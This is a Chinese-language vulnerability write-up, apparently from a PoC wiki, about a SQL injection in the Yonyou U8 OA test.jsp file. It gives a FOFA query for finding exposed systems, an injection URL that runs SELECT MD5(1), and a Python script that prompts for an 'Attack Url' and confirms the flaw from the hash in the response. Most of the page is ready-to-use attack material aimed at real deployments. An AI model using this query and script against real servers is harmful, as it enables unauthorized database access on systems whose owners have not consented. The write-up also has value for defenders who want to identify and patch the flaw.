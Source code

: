 # 用友-U8-OA-test.jsp-SQL注入漏洞

## 漏洞描述

用友 U8 OA test.jsp文件存在 SQL注入漏洞，由于与致远OA使用相同的文件，于是存在了同样的漏洞

## 漏洞影响

> [!NOTE]
>
> 用友 U8 OA 

## FOFA

> [!NOTE]
>
> "用友U8-OA"

## 漏洞复现

可参考 文章

[致远OA A6 test.jsp SQL注入漏洞](http://wiki.peiqi.tech/PeiQi_Wiki/OA%E4%BA%A7%E5%93%81%E6%BC%8F%E6%B4%9E/%E8%87%B4%E8%BF%9COA/%E8%87%B4%E8%BF%9COA%20A6%20test.jsp%20SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.html)



登录页面如下

![](用友-U8-OA-test.jsp-SQL注入漏洞.assets/1627363549368275.jpg)

POC

```
/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20MD5(1))
```

![](用友-U8-OA-test.jsp-SQL注入漏洞.assets/1627363549531782.jpg)

利用方法与致远OA 的SQL注入类似

## 漏洞POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mTitle	 : 用友-U8-OA-test.jsp-SQL注入漏洞                           \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mFile         >>> ip.txt                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20md5(1))"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "c4ca4238a0b923820dcc509a6f75849b" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 \n[o] 响应地址: {} \033[0m".format(target_url, vuln_url))
        else:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](用友-U8-OA-test.jsp-SQL注入漏洞.assets/1627363549906742.jpg)